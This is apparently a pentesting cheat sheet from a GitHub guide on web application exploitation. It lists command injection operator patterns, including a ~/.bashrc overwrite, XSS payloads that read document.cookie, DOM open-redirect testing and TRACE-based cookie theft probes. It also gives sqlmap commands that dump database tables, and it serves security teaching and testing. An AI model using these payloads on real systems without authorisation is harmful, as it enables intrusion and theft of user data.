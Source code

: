 # TABLE OF CONTENTS
1. [RECONNAISSANCE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_WebApplication.md#information-gathering)
2. [EXPLOITATION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_WebApplication.md#exploitation)
3. [PENTEST CHECKLIST](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_WebApplication.md#pentest-checklist)


# RECONNAISSANCE 
- [Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Networks/Web%20Application.md)
- [Reconnaissance/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/1_Reconnaissance.md#web-application)

<br />

# EXPLOITATION
## 1) Command Injection
#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

## 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- [3_Exploitation/XSS.md](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/XSS.md)

### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

#### Web Server with TRACE/TRACK enabled (XST)
- Details: [https://owasp.org/Cross_Site_Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)
- "XST could be used as a method to steal user’s cookies via XSS"
- "This is possible even if the cookie has the “HttpOnly” flag set or exposes the user’s Authorization header"
- `curl -X TRACE www.example.org`
- `curl -X TRACE -H "Cookie: name=value" www.example.org`

### 3) SQLi
#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```

<br />

# PENTEST CHECKLIST 
Vulnerability | Test Method
------------- | -----------
Insufficient Cache Controls | Observe headers on pages containing sensitive data
Username Enumeration | Login valid user/invalid password – then compare. Login invalid user/invalid password – then compare
Session Cookies Not Marked Secure | Observe response headers after authentication
